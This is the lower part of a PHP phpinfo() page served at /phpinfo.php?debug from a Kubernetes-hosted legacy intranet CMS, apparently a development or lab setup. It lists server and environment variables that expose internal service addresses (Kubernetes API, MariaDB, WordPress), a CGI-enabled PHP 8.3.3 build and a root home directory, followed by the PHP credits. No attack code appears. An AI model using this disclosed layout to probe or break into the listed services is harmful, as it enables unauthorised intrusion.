<tr><td class="e">$_SERVER['KUBERNETES_PORT']</td><td class="v">tcp://10.43.0.1:443</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_SERVICE_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_SERVER['HOSTNAME']</td><td class="v">legacy-intranet-cms-6f7bf5db84-gb975</td></tr>
<tr><td class="e">$_SERVER['PHP_INI_DIR']</td><td class="v">/usr/local/etc/php</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_SERVICE_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT']</td><td class="v">tcp://10.43.61.204:80</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_SERVICE_HOST']</td><td class="v">10.43.2.241</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_SERVICE_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_PORT']</td><td class="v">tcp://10.43.4.242:80</td></tr>
<tr><td class="e">$_SERVER['SHLVL']</td><td class="v">2</td></tr>
<tr><td class="e">$_SERVER['PHP_CGI_VERSION']</td><td class="v">8.3.3</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_PORT_5000_TCP']</td><td class="v">tcp://10.43.2.241:5000</td></tr>
<tr><td class="e">$_SERVER['HOME']</td><td class="v">/root</td></tr>
<tr><td class="e">$_SERVER['PHP_LDFLAGS']</td><td class="v">-Wl,-O1 -pie</td></tr>
<tr><td class="e">$_SERVER['LEGACY_CGI_ENABLED']</td><td class="v">true</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_ADDR']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_PORT_3306_TCP_ADDR']</td><td class="v">10.43.147.82</td></tr>
<tr><td class="e">$_SERVER['PHP_CFLAGS']</td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_PORT_80_TCP_ADDR']</td><td class="v">10.43.4.242</td></tr>
<tr><td class="e">$_SERVER['PHP_VERSION']</td><td class="v">8.3.3</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_SERVICE_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_PORT']</td><td class="v">tcp://10.43.2.241:5000</td></tr>
<tr><td class="e">$_SERVER['LEGACY_MODE']</td><td class="v">enabled</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_PORT_3306_TCP_PORT']</td><td class="v">3306</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['GPG_KEYS']</td><td class="v">1198C0117593497A5EC5C199286AF1F9897469DC C28D937575603EB4ABB725861C0779DC5C0A9DE4 AFD8691FDAEDF03BDF6E460563F15A9B715376CA</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_PORT_3306_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_SERVICE_HOST']</td><td class="v">10.43.147.82</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_PORT_80_TCP_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['PHP_CPPFLAGS']</td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64</td></tr>
<tr><td class="e">$_SERVER['PHP_ASC_URL']</td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz.asc</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL']</td><td class="v">3306</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_PORT_80_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['PHP_URL']</td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz</td></tr>
<tr><td class="e">$_SERVER['PHP_MAX_EXECUTION_TIME']</td><td class="v">120</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_PORT_443_TCP_ADDR']</td><td class="v">10.43.0.1</td></tr>
<tr><td class="e">$_SERVER['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_SERVICE_PORT']</td><td class="v">3306</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_PORT']</td><td class="v">tcp://10.43.147.82:3306</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_MARIADB_PORT_3306_TCP']</td><td class="v">tcp://10.43.147.82:3306</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_ADDR']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_PORT_443_TCP_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_80_TCP']</td><td class="v">tcp://10.43.61.204:80</td></tr>
<tr><td class="e">$_SERVER['PHP_MEMORY_LIMIT']</td><td class="v">128M</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_PORT_80_TCP']</td><td class="v">tcp://10.43.4.242:80</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_PORT_443_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['CMS_ENVIRONMENT']</td><td class="v">development</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTP']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_SERVICE_PORT_HTTP']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_SERVICE_PORT_HTTPS']</td><td class="v">443</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_PORT_443_TCP']</td><td class="v">tcp://10.43.0.1:443</td></tr>
<tr><td class="e">$_SERVER['PHPIZE_DEPS']</td><td class="v">autoconf 		dpkg-dev dpkg 		file 		g++ 		gcc 		libc-dev 		make 		pkgconf 		re2c</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR']</td><td class="v">10.43.2.241</td></tr>
<tr><td class="e">$_SERVER['KUBERNETES_SERVICE_HOST']</td><td class="v">10.43.0.1</td></tr>
<tr><td class="e">$_SERVER['PWD']</td><td class="v">/</td></tr>
<tr><td class="e">$_SERVER['PHP_SHA256']</td><td class="v">b0a996276fe21fe9ca8f993314c8bc02750f464c7b0343f056fb0894a8dfa9d1</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTPS']</td><td class="v">443</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_PORT_443_TCP']</td><td class="v">tcp://10.43.61.204:443</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_SERVER['BETA_VINO_WP_WORDPRESS_SERVICE_HOST']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_SERVER['LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP']</td><td class="v">5000</td></tr>
<tr><td class="e">$_SERVER['WP_NGINX_SERVICE_SERVICE_HOST']</td><td class="v">10.43.4.242</td></tr>
<tr><td class="e">$_SERVER['HTTP_CONNECTION']</td><td class="v">close</td></tr>
<tr><td class="e">$_SERVER['HTTP_HOST']</td><td class="v">10.43.2.241:5000</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REDIRECT_STATUS']</td><td class="v">200</td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['SERVER_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">10.42.1.243</td></tr>
<tr><td class="e">$_SERVER['REMOTE_PORT']</td><td class="v">33390</td></tr>
<tr><td class="e">$_SERVER['REMOTE_ADDR']</td><td class="v">10.42.1.249</td></tr>
<tr><td class="e">$_SERVER['SERVER_SOFTWARE']</td><td class="v">nginx/1.24.0</td></tr>
<tr><td class="e">$_SERVER['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_SERVER['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_SERVER['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_URI']</td><td class="v">/phpinfo.php?debug</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['CONTENT_LENGTH']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['CONTENT_TYPE']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_SERVER['QUERY_STRING']</td><td class="v">debug</td></tr>
<tr><td class="e">$_SERVER['FCGI_ROLE']</td><td class="v">RESPONDER</td></tr>
<tr><td class="e">$_SERVER['PHP_SELF']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME_FLOAT']</td><td class="v">1774440899.9404</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME']</td><td class="v">1774440899</td></tr>
<tr><td class="e">$_SERVER['argv']</td><td class="v"><pre>Array
(
    [0] =&gt; debug
)
</pre></td></tr>
<tr><td class="e">$_SERVER['argc']</td><td class="v">1</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_PORT']</td><td class="v">tcp://10.43.0.1:443</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_SERVICE_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_ENV['HOSTNAME']</td><td class="v">legacy-intranet-cms-6f7bf5db84-gb975</td></tr>
<tr><td class="e">$_ENV['PHP_INI_DIR']</td><td class="v">/usr/local/etc/php</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_SERVICE_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT']</td><td class="v">tcp://10.43.61.204:80</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_SERVICE_HOST']</td><td class="v">10.43.2.241</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_SERVICE_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_PORT']</td><td class="v">tcp://10.43.4.242:80</td></tr>
<tr><td class="e">$_ENV['SHLVL']</td><td class="v">2</td></tr>
<tr><td class="e">$_ENV['PHP_CGI_VERSION']</td><td class="v">8.3.3</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_PORT_5000_TCP']</td><td class="v">tcp://10.43.2.241:5000</td></tr>
<tr><td class="e">$_ENV['HOME']</td><td class="v">/root</td></tr>
<tr><td class="e">$_ENV['PHP_LDFLAGS']</td><td class="v">-Wl,-O1 -pie</td></tr>
<tr><td class="e">$_ENV['LEGACY_CGI_ENABLED']</td><td class="v">true</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_ADDR']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_PORT_3306_TCP_ADDR']</td><td class="v">10.43.147.82</td></tr>
<tr><td class="e">$_ENV['PHP_CFLAGS']</td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_PORT_80_TCP_ADDR']</td><td class="v">10.43.4.242</td></tr>
<tr><td class="e">$_ENV['PHP_VERSION']</td><td class="v">8.3.3</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_SERVICE_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_PORT']</td><td class="v">tcp://10.43.2.241:5000</td></tr>
<tr><td class="e">$_ENV['LEGACY_MODE']</td><td class="v">enabled</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_PORT_3306_TCP_PORT']</td><td class="v">3306</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['GPG_KEYS']</td><td class="v">1198C0117593497A5EC5C199286AF1F9897469DC C28D937575603EB4ABB725861C0779DC5C0A9DE4 AFD8691FDAEDF03BDF6E460563F15A9B715376CA</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_PORT_3306_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_SERVICE_HOST']</td><td class="v">10.43.147.82</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_PORT_80_TCP_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['PHP_CPPFLAGS']</td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64</td></tr>
<tr><td class="e">$_ENV['PHP_ASC_URL']</td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz.asc</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL']</td><td class="v">3306</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_PORT_80_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['PHP_URL']</td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz</td></tr>
<tr><td class="e">$_ENV['PHP_MAX_EXECUTION_TIME']</td><td class="v">120</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_PORT_443_TCP_ADDR']</td><td class="v">10.43.0.1</td></tr>
<tr><td class="e">$_ENV['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_SERVICE_PORT']</td><td class="v">3306</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_PORT']</td><td class="v">tcp://10.43.147.82:3306</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_MARIADB_PORT_3306_TCP']</td><td class="v">tcp://10.43.147.82:3306</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_ADDR']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_PORT_443_TCP_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_80_TCP']</td><td class="v">tcp://10.43.61.204:80</td></tr>
<tr><td class="e">$_ENV['PHP_MEMORY_LIMIT']</td><td class="v">128M</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_PORT_80_TCP']</td><td class="v">tcp://10.43.4.242:80</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_PORT_443_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['CMS_ENVIRONMENT']</td><td class="v">development</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PORT']</td><td class="v">443</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTP']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_SERVICE_PORT_HTTP']</td><td class="v">80</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_SERVICE_PORT_HTTPS']</td><td class="v">443</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_PORT_443_TCP']</td><td class="v">tcp://10.43.0.1:443</td></tr>
<tr><td class="e">$_ENV['PHPIZE_DEPS']</td><td class="v">autoconf 		dpkg-dev dpkg 		file 		g++ 		gcc 		libc-dev 		make 		pkgconf 		re2c</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR']</td><td class="v">10.43.2.241</td></tr>
<tr><td class="e">$_ENV['KUBERNETES_SERVICE_HOST']</td><td class="v">10.43.0.1</td></tr>
<tr><td class="e">$_ENV['PWD']</td><td class="v">/</td></tr>
<tr><td class="e">$_ENV['PHP_SHA256']</td><td class="v">b0a996276fe21fe9ca8f993314c8bc02750f464c7b0343f056fb0894a8dfa9d1</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTPS']</td><td class="v">443</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_PORT_443_TCP']</td><td class="v">tcp://10.43.61.204:443</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_ENV['BETA_VINO_WP_WORDPRESS_SERVICE_HOST']</td><td class="v">10.43.61.204</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO']</td><td class="v">tcp</td></tr>
<tr><td class="e">$_ENV['LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP']</td><td class="v">5000</td></tr>
<tr><td class="e">$_ENV['WP_NGINX_SERVICE_SERVICE_HOST']</td><td class="v">10.43.4.242</td></tr>
<tr><td class="e">$_ENV['HTTP_CONNECTION']</td><td class="v">close</td></tr>
<tr><td class="e">$_ENV['HTTP_HOST']</td><td class="v">10.43.2.241:5000</td></tr>
<tr><td class="e">$_ENV['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_ENV['REDIRECT_STATUS']</td><td class="v">200</td></tr>
<tr><td class="e">$_ENV['SERVER_NAME']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_ENV['SERVER_PORT']</td><td class="v">5000</td></tr>
<tr><td class="e">$_ENV['SERVER_ADDR']</td><td class="v">10.42.1.243</td></tr>
<tr><td class="e">$_ENV['REMOTE_PORT']</td><td class="v">33390</td></tr>
<tr><td class="e">$_ENV['REMOTE_ADDR']</td><td class="v">10.42.1.249</td></tr>
<tr><td class="e">$_ENV['SERVER_SOFTWARE']</td><td class="v">nginx/1.24.0</td></tr>
<tr><td class="e">$_ENV['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_ENV['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_ENV['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_ENV['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_ENV['DOCUMENT_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_ENV['REQUEST_URI']</td><td class="v">/phpinfo.php?debug</td></tr>
<tr><td class="e">$_ENV['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_ENV['CONTENT_LENGTH']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_ENV['CONTENT_TYPE']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_ENV['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_ENV['QUERY_STRING']</td><td class="v">debug</td></tr>
<tr><td class="e">$_ENV['FCGI_ROLE']</td><td class="v">RESPONDER</td></tr>
</table>
<hr />
<h1>PHP Credits</h1>
<table>
<tr class="h"><th>PHP Group</th></tr>
<tr><td class="e">Thies C. Arntzen, Stig Bakken, Shane Caraveo, Andi Gutmans, Rasmus Lerdorf, Sam Ruby, Sascha Schumann, Zeev Suraski, Jim Winstead, Andrei Zmievski </td></tr>
</table>
<table>
<tr class="h"><th>Language Design &amp; Concept</th></tr>
<tr><td class="e">Andi Gutmans, Rasmus Lerdorf, Zeev Suraski, Marcus Boerger </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">PHP Authors</th></tr>
<tr class="h"><th>Contribution</th><th>Authors</th></tr>
<tr><td class="e">Zend Scripting Language Engine </td><td class="v">Andi Gutmans, Zeev Suraski, Stanislav Malyshev, Marcus Boerger, Dmitry Stogov, Xinchen Hui, Nikita Popov </td></tr>
<tr><td class="e">Extension Module API </td><td class="v">Andi Gutmans, Zeev Suraski, Andrei Zmievski </td></tr>
<tr><td class="e">UNIX Build and Modularization </td><td class="v">Stig Bakken, Sascha Schumann, Jani Taskinen, Peter Kokot </td></tr>
<tr><td class="e">Windows Support </td><td class="v">Shane Caraveo, Zeev Suraski, Wez Furlong, Pierre-Alain Joye, Anatol Belski, Kalle Sommer Nielsen </td></tr>
<tr><td class="e">Server API (SAPI) Abstraction Layer </td><td class="v">Andi Gutmans, Shane Caraveo, Zeev Suraski </td></tr>
<tr><td class="e">Streams Abstraction Layer </td><td class="v">Wez Furlong, Sara Golemon </td></tr>
<tr><td class="e">PHP Data Objects Layer </td><td class="v">Wez Furlong, Marcus Boerger, Sterling Hughes, George Schlossnagle, Ilia Alshanetsky </td></tr>
<tr><td class="e">Output Handler </td><td class="v">Zeev Suraski, Thies C. Arntzen, Marcus Boerger, Michael Wallner </td></tr>
<tr><td class="e">Consistent 64 bit support </td><td class="v">Anthony Ferrara, Anatol Belski </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">SAPI Modules</th></tr>
<tr class="h"><th>Contribution</th><th>Authors</th></tr>
<tr><td class="e">Apache 2.0 Handler </td><td class="v">Ian Holsman, Justin Erenkrantz (based on Apache 2.0 Filter code) </td></tr>
<tr><td class="e">CGI / FastCGI </td><td class="v">Rasmus Lerdorf, Stig Bakken, Shane Caraveo, Dmitry Stogov </td></tr>
<tr><td class="e">CLI </td><td class="v">Edin Kadribasic, Marcus Boerger, Johannes Schlueter, Moriyoshi Koizumi, Xinchen Hui </td></tr>
<tr><td class="e">Embed </td><td class="v">Edin Kadribasic </td></tr>
<tr><td class="e">FastCGI Process Manager </td><td class="v">Andrei Nigmatulin, dreamcat4, Antony Dovgal, Jerome Loyet </td></tr>
<tr><td class="e">litespeed </td><td class="v">George Wang </td></tr>
<tr><td class="e">phpdbg </td><td class="v">Felipe Pena, Joe Watkins, Bob Weinand </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">Module Authors</th></tr>
<tr class="h"><th>Module</th><th>Authors</th></tr>
<tr><td class="e">BC Math </td><td class="v">Andi Gutmans </td></tr>
<tr><td class="e">Bzip2 </td><td class="v">Sterling Hughes </td></tr>
<tr><td class="e">Calendar </td><td class="v">Shane Caraveo, Colin Viebrock, Hartmut Holzgraefe, Wez Furlong </td></tr>
<tr><td class="e">COM and .Net </td><td class="v">Wez Furlong </td></tr>
<tr><td class="e">ctype </td><td class="v">Hartmut Holzgraefe </td></tr>
<tr><td class="e">cURL </td><td class="v">Sterling Hughes </td></tr>
<tr><td class="e">Date/Time Support </td><td class="v">Derick Rethans </td></tr>
<tr><td class="e">DB-LIB (MS SQL, Sybase) </td><td class="v">Wez Furlong, Frank M. Kromann, Adam Baratz </td></tr>
<tr><td class="e">DBA </td><td class="v">Sascha Schumann, Marcus Boerger </td></tr>
<tr><td class="e">DOM </td><td class="v">Christian Stocker, Rob Richards, Marcus Boerger </td></tr>
<tr><td class="e">enchant </td><td class="v">Pierre-Alain Joye, Ilia Alshanetsky </td></tr>
<tr><td class="e">EXIF </td><td class="v">Rasmus Lerdorf, Marcus Boerger </td></tr>
<tr><td class="e">FFI </td><td class="v">Dmitry Stogov </td></tr>
<tr><td class="e">fileinfo </td><td class="v">Ilia Alshanetsky, Pierre Alain Joye, Scott MacVicar, Derick Rethans, Anatol Belski </td></tr>
<tr><td class="e">Firebird driver for PDO </td><td class="v">Ard Biesheuvel </td></tr>
<tr><td class="e">FTP </td><td class="v">Stefan Esser, Andrew Skalski </td></tr>
<tr><td class="e">GD imaging </td><td class="v">Rasmus Lerdorf, Stig Bakken, Jim Winstead, Jouni Ahto, Ilia Alshanetsky, Pierre-Alain Joye, Marcus Boerger, Mark Randall </td></tr>
<tr><td class="e">GetText </td><td class="v">Alex Plotnick </td></tr>
<tr><td class="e">GNU GMP support </td><td class="v">Stanislav Malyshev </td></tr>
<tr><td class="e">Iconv </td><td class="v">Rui Hirokawa, Stig Bakken, Moriyoshi Koizumi </td></tr>
<tr><td class="e">IMAP </td><td class="v">Rex Logan, Mark Musone, Brian Wang, Kaj-Michael Lang, Antoni Pamies Olive, Rasmus Lerdorf, Andrew Skalski, Chuck Hagenbuch, Daniel R Kalowsky </td></tr>
<tr><td class="e">Input Filter </td><td class="v">Rasmus Lerdorf, Derick Rethans, Pierre-Alain Joye, Ilia Alshanetsky </td></tr>
<tr><td class="e">Internationalization </td><td class="v">Ed Batutis, Vladimir Iordanov, Dmitry Lakhtyuk, Stanislav Malyshev, Vadim Savchuk, Kirti Velankar </td></tr>
<tr><td class="e">JSON </td><td class="v">Jakub Zelenka, Omar Kilani, Scott MacVicar </td></tr>
<tr><td class="e">LDAP </td><td class="v">Amitay Isaacs, Eric Warnke, Rasmus Lerdorf, Gerrit Thomson, Stig Venaas </td></tr>
<tr><td class="e">LIBXML </td><td class="v">Christian Stocker, Rob Richards, Marcus Boerger, Wez Furlong, Shane Caraveo </td></tr>
<tr><td class="e">Multibyte String Functions </td><td class="v">Tsukada Takuya, Rui Hirokawa </td></tr>
<tr><td class="e">MySQL driver for PDO </td><td class="v">George Schlossnagle, Wez Furlong, Ilia Alshanetsky, Johannes Schlueter </td></tr>
<tr><td class="e">MySQLi </td><td class="v">Zak Greant, Georg Richter, Andrey Hristov, Ulf Wendel </td></tr>
<tr><td class="e">MySQLnd </td><td class="v">Andrey Hristov, Ulf Wendel, Georg Richter, Johannes Schlüter </td></tr>
<tr><td class="e">OCI8 </td><td class="v">Stig Bakken, Thies C. Arntzen, Andy Sautins, David Benson, Maxim Maletsky, Harald Radi, Antony Dovgal, Andi Gutmans, Wez Furlong, Christopher Jones, Oracle Corporation </td></tr>
<tr><td class="e">ODBC driver for PDO </td><td class="v">Wez Furlong </td></tr>
<tr><td class="e">ODBC </td><td class="v">Stig Bakken, Andreas Karajannis, Frank M. Kromann, Daniel R. Kalowsky </td></tr>
<tr><td class="e">Opcache </td><td class="v">Andi Gutmans, Zeev Suraski, Stanislav Malyshev, Dmitry Stogov, Xinchen Hui </td></tr>
<tr><td class="e">OpenSSL </td><td class="v">Stig Venaas, Wez Furlong, Sascha Kettler, Scott MacVicar, Eliot Lear </td></tr>
<tr><td class="e">Oracle (OCI) driver for PDO </td><td class="v">Wez Furlong </td></tr>
<tr><td class="e">pcntl </td><td class="v">Jason Greene, Arnaud Le Blanc </td></tr>
<tr><td class="e">Perl Compatible Regexps </td><td class="v">Andrei Zmievski </td></tr>
<tr><td class="e">PHP Archive </td><td class="v">Gregory Beaver, Marcus Boerger </td></tr>
<tr><td class="e">PHP Data Objects </td><td class="v">Wez Furlong, Marcus Boerger, Sterling Hughes, George Schlossnagle, Ilia Alshanetsky </td></tr>
<tr><td class="e">PHP hash </td><td class="v">Sara Golemon, Rasmus Lerdorf, Stefan Esser, Michael Wallner, Scott MacVicar </td></tr>
<tr><td class="e">Posix </td><td class="v">Kristian Koehntopp </td></tr>
<tr><td class="e">PostgreSQL driver for PDO </td><td class="v">Edin Kadribasic, Ilia Alshanetsky </td></tr>
<tr><td class="e">PostgreSQL </td><td class="v">Jouni Ahto, Zeev Suraski, Yasuo Ohgaki, Chris Kings-Lynne </td></tr>
<tr><td class="e">Pspell </td><td class="v">Vlad Krupin </td></tr>
<tr><td class="e">random </td><td class="v">Go Kudo, Tim Düsterhus, Guilliam Xavier, Christoph M. Becker, Jakub Zelenka, Bob Weinand, Máté Kocsis, and Original RNG implementators </td></tr>
<tr><td class="e">Readline </td><td class="v">Thies C. Arntzen </td></tr>
